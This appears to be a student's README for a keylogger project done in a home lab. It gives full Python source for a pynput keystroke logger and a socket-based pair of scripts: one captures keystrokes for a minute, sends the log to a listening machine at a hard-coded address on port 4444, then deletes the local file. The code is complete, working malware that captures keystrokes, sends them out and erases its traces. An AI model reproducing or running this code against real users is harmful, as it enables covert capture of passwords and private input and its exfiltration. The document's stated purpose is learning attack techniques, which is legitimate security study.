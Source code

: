 # Python Keylogger Project
This is my attempt at a Python Keylogger Project, done purely for educational purposes in a lab environment. The main goal is to understand how malicious software can track user input and exfiltrate that data.  I’ve divided the project into different phases to gradually build up from basic functionality to something more advanced.

The goal is:
- Understand how keystrokes can be captured in real time using Python
- Learn about network programming using sockets for data transfer
- Simulate basic data exfiltration from one machine to another

I've divided this project into 2 parts:
- Phase 1: Keylogging own keys on the Kali VM
- Phase 2: Keylogging on another system and sending it back to the Kali VM

## Phase 1 : Keylogging own keys on the Kali VM

I've written a simple Python code that uses the 'keyboard' module from the 'pynput' library, which tracks key presses in real time, from my own machine. Here is the code:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        pass
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Once I was done with it, I ran this code to see if it works. And as you can see it works as expected, but the words are all mashed together, no space or enters.\
\
![](images/test_keylogger.png)\
\
Here's the updated code for it:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Then I ran the updated code again and it works perfectly as it has to, as you can see in the screenshot.\
\
![](images/final_keylogger.png)\
\
That was Phase 1 of my Project. Now onto Phase 2.

## Phase 2 : Keylogging on another system and sending it back to the Kali VM

The main goal of this phase is to be able to get back the keylog.txt file from  another computer or VM, and delete itself after (just to mimic a malware, for the sake of this project).

For that I have written 2 codes, one for the receiving end and one for the send. The receiver end will only have a code that attempts to receive the file, and the send code, will have the actual keylogger code plus the send part of the code to send it back.

For this I've used the 'socket' module to enable functions that I can use to interact with the network functions for Python.

Here is the 'receiver.py' code which hosts on the Kali VM:

```python
import socket

def receive_log():
    host = "0.0.0.0"
    port = 4444

    with socket.socket() as s:
        s.bind((host, port))
        s.listen(1)
        conn, addr = s.accept()
        print(f"[+] Connection from {addr}")

        with open("received_keylog.txt", "wb") as f:
            while True:
                data = conn.recv(1024)
                if b"DONE" in data:
                    break
                f.write(data)

receive_log()
```

And here is the 'send_code.py' code which hosts on the Kali VM:

```python
from pynput import keyboard
import socket
import time
import os

log = "keylog.txt"
start_time = time.time()
duration = 60

def on_press(key):
    if time.time() - start_time > duration:
        return False

    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")

def send_log():
    host = "192.168.29.132"
    port = 4444

    try:
        with socket.socket() as s:
            s.connect((host, port))
            with open(log, "rb") as f:
                data = f.read()
                s.sendall(data)
                time.sleep(1)
                s.send(b"DONE")

        os.remove(log)
    except:
        pass

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

send_log()
```

Now I will first run the code on the receiver side and then the sender's side.\
\
![](images/send_recieve.png)\
\
As we can see it works perfectly.

## Conclusion:
To complete this project, I had to first learn how to use the keyboard module from the pynput library, which was new to me. It helped me track keystrokes in real time and understand how to handle normal key inputs vs special ones like space and enter. I also learned how to clean up the output to make the logged text readable, which made a big difference in how useful the logs actually were.

Then for Phase 2, I had to figure out how to send files between systems. For that, I learned how to use Python’s socket module, which gave me the tools to open up a connection between two VMs and send the keylog file across the network. I also added a small automation step to delete the file after it’s been sent successfully, just to keep things clean.

Overall, this project helped me get more comfortable with writing small scripts that simulate basic attack behavior in a safe lab environment. It also gave me a better understanding of how keystroke logging and data exfiltration actually works under the hood, which I think is useful knowledge to have for anyone going into cybersecurity.
